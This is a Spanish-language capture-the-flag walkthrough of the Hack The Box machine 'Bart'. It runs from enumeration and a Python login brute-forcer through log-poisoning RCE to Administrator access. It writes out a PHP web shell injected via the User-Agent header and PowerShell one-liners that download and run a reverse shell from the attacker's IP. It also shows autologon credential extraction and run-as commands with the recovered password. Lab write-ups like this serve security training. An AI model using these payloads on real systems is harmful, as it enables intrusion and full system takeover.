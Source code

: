 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```

COn el output de cewl y poniendo todo en minusculas sacamos el password

```
harvey

potter
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/e3da1420-e251-40b5-bbf2-b5ced1ed2c9b)

Siemmpre ve si el proyecto es open source en este caso si.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/5b4852f0-526c-4c36-8e91-61fec50ae625)


Pues yo no hubiera podido ver esto solo pero si intentamos registranos de acuerdo al codigo.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/371da5fe-0627-4863-9074-ccb5c9ae1516)

```
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=masa&password=masa1234"
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/aa59b77e-66eb-4861-b411-2756aabec176)

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/3ac269b9-79e1-40b5-8f32-24b3c626d805)


Si vemos el codigo vemos algo raro

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/218edb21-ee54-4ac2-bdc8-e627b8089bd8)

Nos encontramos que esa pagina esta como capturando el user agent. Y aparte permite que creemoes un arhivo con lo cual se podria

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

```

### RCE (log poisoning)

Pues se puede hacer de varias maneras pero esta es con python y requests

```
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'MASA: <?php system($_GET['cmd']); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=log1.php&username=harvey', proxies=proxies, headers=headers)

```

Ya sabes log1.php?cmd=descarga tu shell powershell nigsha...

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/61bd98bd-74ba-4d75-bd86-e6b16b4da29b)

Siempre es importante pasarse a la arquitecura de 64 por lo que la manera mas facil por lo menos que yo he visto es nc64.exe. 



### Reverse shell de 32 a 64

Lo que note cuando hice esta pagina es que el proceso donde se obtiene la shell es de 32 por lo que lo mejor es pasarlo a 64 logre esto  llamando al powershell desde la ruta de 32 a 64..

```
http://internal-01.bart.htb/log/log1.php?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.12/Invoke-PowerShellTcp.ps1%27)

C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')
```

## Auto logon WinLogon 

Puedes checar si estan confuguradas algunas credenciales para autologon 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/a36742ef-4d95-4ef8-aa49-c716e0dc10d7)


```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

   LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb


```
## Privilege Escalation

### Powershell “run as”

Que quiere decir correr como eso quiere decir que lo vas a correr en la maquina victima vas a correr un comando como otro usuario en el caso de la maquina bart pues como Administrator ya que tenemos el password:

```
PS C:\Users\Administrator\Documents>

$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost

```

## Net use Montar un file system

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/514198ae-a2c2-4b73-9b9b-b15908ac7fbf)


```
net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
```





































